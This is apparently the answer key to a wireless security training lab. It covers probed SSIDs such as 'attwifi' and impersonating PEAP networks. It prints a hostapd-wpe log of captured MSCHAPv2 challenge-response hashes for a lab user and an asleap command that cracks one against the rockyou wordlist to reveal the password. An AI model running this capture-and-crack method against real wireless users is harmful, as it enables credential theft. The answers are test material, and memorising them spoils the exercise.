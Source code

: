 **Question:** What is the SSID that is commonly associated with open networks that a corpmobile client is searching for?

**Answer:** `attwifi`, shown in the graph excerpt below.

**Question:** What kind of associations can you identify among wireless clients?

**Answer:** The answer to this question will vary depending on your location and the number of devices within capture range of your monitor mode wireless card.

**Question:** What commonly open SSIDs do you see disclosed by client devices?

**Answer:** The answer to this question will vary depending on your location and the number of devices within capture range of your monitor mode wireless card.

### Exercise: Impersonating PEAP Networks - Answers <a href="#exercise-impersonating-peap-networks-answers" id="exercise-impersonating-peap-networks-answers"></a>

**Question**: What is the password recovered in the `hostapd-wpe.log` file for the `jwright` user?

**Answer**: “smartypants”

```
# cat hostapd-wpe.log 
mschapv2: Fri Jun 22 13:12:03 2018
	 username:	jwright
	 challenge:	ea:e5:2e:4d:f1:55:f2:38
	 response:	65:76:b8:33:d6:29:dc:40:03:e2:62:7a:38:90:23:42:1f:3e:0e:f2:bf:8f:57:31
	 jtr NETNTLM:		jwright:$NETNTLM$eae52e4df155f238$6576b833d629dc4003e2627a389023421f3e0ef2bf8f5731
	 hashcat NETNTLM:	jwright::::6576b833d629dc4003e2627a389023421f3e0ef2bf8f5731:eae52e4df155f238



mschapv2: Sat Jun 30 09:37:59 2018
	 username:	jwright
	 challenge:	15:78:07:c0:b8:51:76:42
	 response:	76:65:dd:87:38:e0:bc:3b:95:c9:cd:49:2f:0f:96:4c:5b:da:e1:68:1d:2d:39:58
	 jtr NETNTLM:		jwright:$NETNTLM$157807c0b8517642$7665dd8738e0bc3b95c9cd492f0f964c5bdae1681d2d3958
	 hashcat NETNTLM:	jwright::::7665dd8738e0bc3b95c9cd492f0f964c5bdae1681d2d3958:157807c0b8517642
# asleap -C ea:e5:2e:4d:f1:55:f2:38 -R 65:76:b8:33:d6:29:dc:40:03:e2:62:7a:38:90:23:42:1f:3e:0e:f2:bf:8f:57:31 -W /usr/share/wordlists/rockyou.txt 
asleap 2.2 - actively recover LEAP/PPTP passwords. 
Using wordlist mode with "/usr/share/wordlists/rockyou.txt".
	hash bytes:        1e90
	NT hash:           0dfc8ac0212a5f5041178904909d1e90
	password:          smartypants
```

**STOP**

This completes the lab exercise. Congratulations.
